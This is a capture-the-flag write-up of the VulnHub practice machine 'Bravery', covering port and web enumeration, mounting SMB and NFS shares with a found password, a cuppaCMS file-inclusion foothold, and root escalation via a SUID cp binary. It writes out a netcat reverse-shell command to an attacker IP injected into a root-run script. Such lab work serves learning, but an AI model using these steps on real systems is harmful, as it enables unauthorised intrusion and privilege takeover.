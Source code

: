 ```yaml
---
description: >-
  Bravery[1] is a Linux machine made by Donovan. The box was designed for OSCP
  practice, and the original version of the machine was used for a CTF.
---
```


# Bravery

## Enumeration:

I really like to leave all the initial recon to `nmapAutomator`

```
$ nmapAutomator.sh digitalworld.local All
```

The initial ports shown are crucial. Set special attention to  `139/tcp  open  netbios-ssn ` , `445/tcp microsoft-ds` and `2049/tcp nfs` they will prove quite useful.

```bash
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
443/tcp  open  https
445/tcp  open  microsoft-ds
2049/tcp open  nfs
3306/tcp open  mysql
8080/tcp open  http-proxy

```

### WEB enum

While nmap automator finish let's dive a bit on the web ports...

![](<../../.gitbook/assets/image (8).png>)

![](<../../.gitbook/assets/image (9).png>)

`ffuf` proved more useful against the **8080 **port:

```bash
private                 [Status: 301, Size: 185, Words: 6, Lines: 8]
public                  [Status: 301, Size: 185, Words: 6, Lines: 8]
robots.txt              [Status: 200, Size: 103, Words: 6, Lines: 6]

```

Nevertheless public doesn't show anymore info neither public, we let `ffuf` run against these directories looking for` .php` or` .txt` files

![](<../../.gitbook/assets/image (10).png>)

on the port \*80\* we can found the `/uploads` directory and after exploring a bit we can found the following `note.txt` at `/uploads/files/internal/department/procurement/sara/note.txt`  

![](<../../.gitbook/assets/image (11).png>)

cuppaCMS is a content manager system with some lousy vulnerabilities and this information could be of help later...

![](<../../.gitbook/assets/image (12).png>)

### SMB enum

Lets enumerate the SMB service

```bash
nmap -p 139,445 digitalworld.local
nmap -p 139,445 -sV -Pn digitalworld.local
```

![We can confirm there's a SMB instance running on the target machine](<../../.gitbook/assets/image (5).png>)

Then we tried to enumerate the shares:

```bash
smbclient -NL ////digitalworld.local
```

![List of shares available ](<../../.gitbook/assets/image (7).png>)

The `anonymous `share is useless. Although we gain a lot of social intelligence like issues within the dev team... what about checking the mount points since the port 2029 is open on the target?

```bash
showmount -e digitalworld.local
```

![](<../../.gitbook/assets/image (13).png>)

So we have two shares `anonymous` , `secured` and a mount point `/var/nfsshare`

{% hint style="info" %}
The mount point`/var/nfsshare` is quite common since, perhaps, it's the defacto naming convention for nfs shares at least in CentOS \[2]. 
{% endhint %}

Let's try to mount the nfs share. If you're using ParrotOS like me you might need to install `nfs-common` first:

```
sudo apt-get install nfs-common
```

And then...

```
mkdir /tmp/nfsshare
sudo mount digitalworld.local:var/nfsshare /tmp/nfsshare
```

![](<../../.gitbook/assets/image (15).png>)

reviewing the file's content and considering that we still have the `secured` share to check the continuation may be related to it.

![](<../../.gitbook/assets/image (16).png>)

 So let's dive in the `secured` share:

```
mkdir /tmp/secured
sudo mount //digitalworld.local/secured /tmp/secured -o username=david,password=qwertyuioplkjhgfdsazxcvbnm
```

![](<../../.gitbook/assets/image (17).png>)

So we are now aware of the `genevieve` folder which may have escaped to our wordlists...

#### Genevieve site

We found a "Corporate test page"...

![The Genevieve test page...](<../../.gitbook/assets/image (18).png>)

![](<../../.gitbook/assets/image (19).png>)

A quick exploration reviewing the site source reveals the location of `cuppaCMS`...

![](<../../.gitbook/assets/image (22).png>)

And it's vulnerable to the Remote/Local file inclusion vulnerability we found earlier:

![](<../../.gitbook/assets/image (23).png>)

## Foothold

A quick reverse shell created on our attacking machine and made accessible using python's simple server gave us our foothoold:

![](<../../.gitbook/assets/image (32).png>)

![](<../../.gitbook/assets/image (30).png>)

![](<../../.gitbook/assets/image (34).png>)

![](<../../.gitbook/assets/image (33).png>)

## Escalation

The standard cmd to gain a more friendly prompt:

```
python -c "import pty; pty.spawn('/bin/sh')"
```

Reviewing a bit the folder structure we found a `maintenance.sh` script that seems interesting on `/var/www/`...

![](<../../.gitbook/assets/image (37).png>)

If we could modify the contents of maintenance.sh we might spawn a root terminal but since it's a root owned file we can't modify it directly... Let's search for some bins with wierd permissions assigned

```
find / -perm -u=s -type f 2>/dev/null
```

This find cmd will return all binaries with the SUID bit set according to GTFObins: 

`If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor.`

![The cp binary has the SUID bit set...](<../../.gitbook/assets/image (39).png>)

And perhaps we can abuse cp quite easily\[3]...

![](<../../.gitbook/assets/image (41).png>)

```
echo "nc -nv 10.10.10.5 5555 -e /bin/sh" | /usr/bin/cp /dev/stdin ./maintenance.sh
```

![](<../../.gitbook/assets/image (42).png>)

![](<../../.gitbook/assets/image (43).png>)

Ans we have rooted the box :smiley: ...

Even there's a `proof.txt` file laying there...

![](<../../.gitbook/assets/image (44).png>)

## Conclusions

1. Enumerate always. Improving my enum game on SMB and nfsshare mount points in order to correctly find the foothold was key.
2. Most of the time you don't need to exactly know how to execute a cmd but know your Google-fu :zany_face: 



## References

\[1] Digitalworl.local: Bravery [https://www.vulnhub.com/entry/digitalworldlocal-bravery,281/](https://www.vulnhub.com/entry/digitalworldlocal-bravery,281/)

\[2] NFS Server and Client Installation on CentOS 7 - [https://www.howtoforge.com/nfs-server-and-client-on-centos-7](https://www.howtoforge.com/nfs-server-and-client-on-centos-7)

\[3] ../cp [https://gtfobins.github.io/gtfobins/cp/#suid](https://gtfobins.github.io/gtfobins/cp/#suid)
